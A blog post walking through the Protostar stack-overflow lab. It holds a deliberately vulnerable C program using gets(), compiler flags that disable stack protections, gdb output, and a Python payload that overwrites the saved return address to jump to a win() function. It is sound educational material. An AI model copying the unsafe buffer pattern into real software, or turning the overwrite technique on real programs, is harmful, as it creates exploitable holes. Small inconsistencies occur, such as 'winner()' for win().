 ```yaml
---
title: Binary Exploitation - Protostar - Stack
date: 2019-12-31 07:50:27
tags: Security
---
```


# Introduction

A month ago, I started attempting to complete the protostar exploitation exercises. These exercises go through the basics of binary exploitation allowing the student to practice the more fundamental skills on a vulnerable kernel of Linux.

The three main exploits that are taught are string format, stack overflow and heap overflow. The course starts off with the easier versions of these exploits and slowly progresses to challenges that require more precision and understanding.

For this series of blog posts, I'll outline the understanding that's required to create a solution for the final three levels that are a accumulation of the skills that were learned during the previous challenges. 

Much of the solutions were created by following the guide by LiveOverflow on Youtube, however it is probably worth writing up regardless for my own educational purposes.

# Stack Overflows
## Arbitrary Read/Write
The size of the stack frame for any function is determinable at compile-time. This means that it is possible for a stack frame to grow downwards towards the base of the previous stack frame and for current stack frame to *never* overwrite information within the previous one.

Side Note: this is also why dynamic memory cannot be allocated on the stack, the compiler **needs** to know exactly how many bytes to allocate for the stack frame at compile-time and this isn't possible if we dynamically allocate memory in the stack.

However, if certain functions are used in an unsafe way, this will allow data on the stack to be smashed. From the examples, this tends to be a function that writes to a buffer with limited size, however does not check the length of the data being written. If the data is larger than the buffer, the buffer will overflow (sometimes into the stack).

### Example

```cpp
int main(int argc, char **argv)
{
  char buffer[64];
  gets(buffer);
}
--
```

We can overflow the buffer easily by inputting more than the 64 characters that we've allocated for it.

```bash
python -c "print 'A' * 128" | ./a.out   
```
This will overwrite critical stack metadata and cause the program to SEGFAULT.

```bash
  5288 segmentation fault (core dumped)  ./a.out
```

## Code Redirection
There are a couple of ways to redirect code with a stack overflow. The most simple is overwriting the saved instruction pointer, this means that when the current function returns, we can get arbitrary code execution.

```cpp
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>
void win()
{
  printf("code flow successfully changed\n");
}

int main(int argc, char **argv)
{
  char buffer[64];

  gets(buffer);
}
```

We can compile this with flags that will disable some of the protections that modern systems have:
```bash
gcc so.c -fno-stack-protector -z execstack -no-pie
```
We can take a look at the effect of overflowing the stack in `gdb`.
```bash
gdb ./a.out
```
We can take a look at `main` by disassembling.
```bash
(gdb) disassemble main
```
```bash
Dump of assembler code for function main:
   0x000000000040054a <+0>:	    push   %rbp
   0x000000000040054b <+1>:	    mov    %rsp,%rbp
   0x000000000040054e <+4>:	    sub    $0x50,%rsp
   0x0000000000400552 <+8>:	    mov    %edi,-0x44(%rbp)
   0x0000000000400555 <+11>:	mov    %rsi,-0x50(%rbp)
   0x0000000000400559 <+15>:	lea    -0x40(%rbp),%rax
   0x000000000040055d <+19>:	mov    %rax,%rdi
   0x0000000000400560 <+22>:	mov    $0x0,%eax
   0x0000000000400565 <+27>:	callq  0x400440 <gets@plt>
   0x000000000040056a <+32>:	mov    $0x0,%eax
   0x000000000040056f <+37>:	leaveq 
=> 0x0000000000400570 <+38>:	retq   
End of assembler dump.
```

We an see our `gets()` call at `main+27`. Let's set a breakpoint before the function returns so we can see the state of the stack. 
```bash
(gdb) break *0x000000000040056f
```

Now let's run the program with an input that will overflow.
```bash
(gdb) run < <(python -c 'print "A" * 128')
```

We should hit the breakpoint that we set previously. Let's check what the stack looks like.
```bash
(gdb) x/50x $rsp-100
```
This commands tells `gdb` that we want to see 50 "words" (technically not words since I'm running a 64bit system) of data `x/50x`, starting at the address of the stack pointer minus one hundred, `$rsp-100`.
```bash
0x7fffffffd874:	0x00000000	0x0040056a	0x00000000	0xffffd9b8
0x7fffffffd884:	0x00007fff	0x00f0b5ff	0x00000001	0x41414141
0x7fffffffd894:	0x41414141	0x41414141	0x41414141	0x41414141
0x7fffffffd8a4:	0x41414141	0x41414141	0x41414141	0x41414141
0x7fffffffd8b4:	0x41414141	0x41414141	0x41414141	0x41414141
0x7fffffffd8c4:	0x41414141	0x41414141	0x41414141	0x41414141
0x7fffffffd8d4:	0x41414141	0x41414141	0x41414141	0x41414141
0x7fffffffd8e4:	0x41414141	0x41414141	0x41414141	0x41414141
0x7fffffffd8f4:	0x41414141	0x41414141	0x41414141	0x41414141
0x7fffffffd904:	0x41414141	0x41414141	0x41414141	0x00400400
0x7fffffffd914:	0x00000000	0xffffd9b0	0x00007fff	0x00000000
0x7fffffffd924:	0x00000000	0x00000000	0x00000000	0xa2729df4
0x7fffffffd934:	0x1c11f557	0xa52c9df4
```
We can see that our `A`'s have overwritten a significant portion of the stack. We can see what metadata regarding the stack frame we've overwritten by inspecting the stack frame.
`(gdb) info frame`

We get the following information.
```bash
Stack level 0, frame at 0x7fffffffd8d8:
 rip = 0x400570 in main; saved rip = 0x4141414141414141
 Arglist at 0x4141414141414141, args: 
 Locals at 0x4141414141414141, Previous frame's sp is 0x7fffffffd8e0
 Saved registers:
  rip at 0x7fffffffd8d8
```
We can see that we've overwritten a large portion of the stack frame metadata, but we've also written the saved `rip` which is the address of that the program will return to after the current function returns. If we overwrite this saved instruction pointer with something that we want, then we can change code flow.

From the output of `info frame` we can see that the saved instruction pointer is at `0x7fffffffd8d8`, which means that we'll need 72 characters to reach it, followed by the address of the place we want to go (which in this case is the `winner()` function).

We can find out the address of `winner()` using the `print` command.
```bash
(gdb) print win
```
We get the following output.
```bash
$2 = {<text variable, no debug info>} 0x400537 <win>
```

This means that the functions starts at `0x400537`.
This means the address bytes will be `\x00\x00\x00\x00\x00\0x40\x05\x37`, but I'm on a little endian system (and most likely so are you), so we'll need to flip the bytes, `\x37\x05\x40\x00\x00\x00\x00\x00`. 

Let's try this in `gdb`.
```bash
r < <(python -c "print 'A' * 72 + '\x37\x05\x40\x00\x00\x00\x00\x00'")
```

Using `c` to continue past the breakpoint we can see that we've successfully changed code execution.
```bash
(gdb) r < <(python -c "print 'A' * 72 + '\x37\x05\x40\x00\x00\x00\x00\x00'")
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /home/winstonzhao/Projects/sb/stackoverflow/a.out < <(python -c "print 'A' * 72 + '\x37\x05\x40\x00\x00\x00\x00\x00'")

Breakpoint 1, 0x0000000000400570 in main ()
(gdb) c
Continuing.
code flow successfully changed

Program received signal SIGSEGV, Segmentation fault.
0x0000000000000000 in ?? ()
```
